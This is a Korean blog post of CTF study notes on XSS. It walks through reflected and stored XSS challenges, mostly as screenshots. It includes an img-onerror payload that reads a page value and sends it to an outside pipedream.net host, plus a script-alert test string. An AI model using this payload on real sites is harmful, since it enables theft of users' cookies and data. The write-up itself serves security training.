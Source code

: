 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS - iframe"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

tags: [TIL, WEB]
---
```


# Basic Script Prac
## mypage -> reflected xss

```html
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">
```

# CTF - Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. data 탈취
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

* 공격 코드
![pre tag가 일을 안 해요](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-9.png?raw=true)

# CTF - Steal Info 2
## notice_list.php
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-5.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-6.gif?raw=true">

1. `<script>alert(1)</script>`로 Stored XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-7.gif?raw=true">

1. data 탈취
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-8.gif?raw=true">

* 공격 코드
![pre tag가 일을 안 해요 2](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-10.png?raw=true)
